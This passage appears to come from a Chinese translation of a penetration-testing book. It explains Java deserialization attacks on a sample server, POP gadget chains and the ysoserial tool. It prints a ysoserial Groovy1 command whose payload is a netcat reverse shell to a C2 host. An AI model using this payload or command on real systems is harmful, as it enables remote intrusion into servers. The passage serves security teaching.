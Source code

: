 我们看到，数据是通过`ObjectInputStream`（`ois`）对象从客户端读取的。这只是一个 fancy 的术语，用于指代从客户端传入的数据，我们在 Wireshark 包捕获中观察到的就是序列化的`HashRequest`对象。下一步是尝试将从`ois`读取的数据转换为`HashRequest`数据结构。这个新`HashRequest`对象的引用随后会存储在`request`变量中，之后可以像普通对象一样在内存中使用。服务器将通过调用`request`的`getData()`方法获取需要反序列化的字符串输入值，计算哈希值，并通过`setHash()`方法将其存回对象中。`setHash`方法是`HashRequest`类提供的，它的作用只是填充对象中的哈希属性。然后，数据会被序列化，并通过`writeObject()`写回到网络流中。

这样做没问题，但代码做出了危险的假设。它假设来自不可信来源（攻击者）的数据实际上是一个`HashRequest`对象。如果数据不是可以安全转换为`HashRequest`的类型，Java 会抛出异常，正如我们将要发现的那样，届时已为时过晚。

## 反序列化利用

Java 反序列化攻击之所以可能，是因为 Java 会在反序列化对象的过程中执行多种方法。如果我们控制这些方法所引用的属性，就能控制应用程序的执行流程。这就是 POP，它是一种类似于**面向返回编程**（**ROP**）的代码重用攻击。ROP 在漏洞开发中用于通过引用内存中的现有字节并利用 x86`return`指令的副作用来执行代码。

如果我们传入具有正确属性的序列化对象，我们可以创建一个执行链，最终导致在应用程序服务器上执行代码。对于非 Java 开发人员来说，这听起来像是一个艰巨的任务。毕竟，你必须熟悉 Java 或第三方库的内部工作原理。幸运的是，有一个很棒的工具可以做重活：**ysoserial**。

ysoserial 工具由研究员 Chris Frohoff 创建，旨在帮助构建序列化对象并将其武器化以攻击应用程序。它可以为许多 Java 应用程序中常用的第三方库构建代码执行有效载荷（POP 链）：

+   `Spring`

+   `Groovy`

+   `Commons Collections`

+   `Jython`

+   ...以及更多！

### 注意

可以从 [`github.com/frohoff/ysoserial`](https://github.com/frohoff/ysoserial) 下载 ysoserial 的源代码和 JAR 文件。

我们知道目标应用程序使用了 `Groovy` 库，因为我们有该 JAR 文件及其源代码。然而，这并非所有企业应用程序都适用，并且在评估过程中我们可能无法始终访问源代码。如果易受攻击的应用程序运行在服务器端，而我们与它的唯一交互是通过 HTTP `GET` 请求，那么我们必须依赖另一个信息泄漏漏洞来确定应该针对哪个库生成 POP 小工具链。当然，另一种选择是简单地尝试每个已知的 POP 小工具链，直到其中一个成功。这虽然不太优雅，且非常嘈杂，但也许能够奏效。

对于这个特定的应用程序，ysoserial 可以快速生成一个带有适当 POP 小工具的序列化对象，用于在实现 `Groovy` 库的应用程序上执行代码：

```
**java -jar ysoserial.jar [payload_name] "[shell command to execute]"**

```

在我们的案例中，有效载荷将是 `Groovy1`，并且执行的命令是一个 netcat 反向 Shell，连接回我们的 C2 服务器 `c2.spider.ml`，如下所示：

```
root@kali:~/tools# java -jar ysoserial.jar Groovy1 **"nc -v c2.spider.ml 443 -e /bin/bash"** > deserlab_payload.bin
```

默认情况下，字节会打印到控制台，因此我们必须将它们通过管道传输到文件 `deserlab_payload.bin`，以便在我们的漏洞利用中使用。生成的有效载荷的十六进制转储显示了四个熟悉的 Java 序列化魔术字节和版本序列，后面跟着 `0x73 0x72` 标志，进一步描述了序列化的数据。我们可以使用 `xxd` 来查看有效载荷文件的十六进制转储，如下所示：

![反序列化漏洞利用](img/B09238_08_08.jpg)
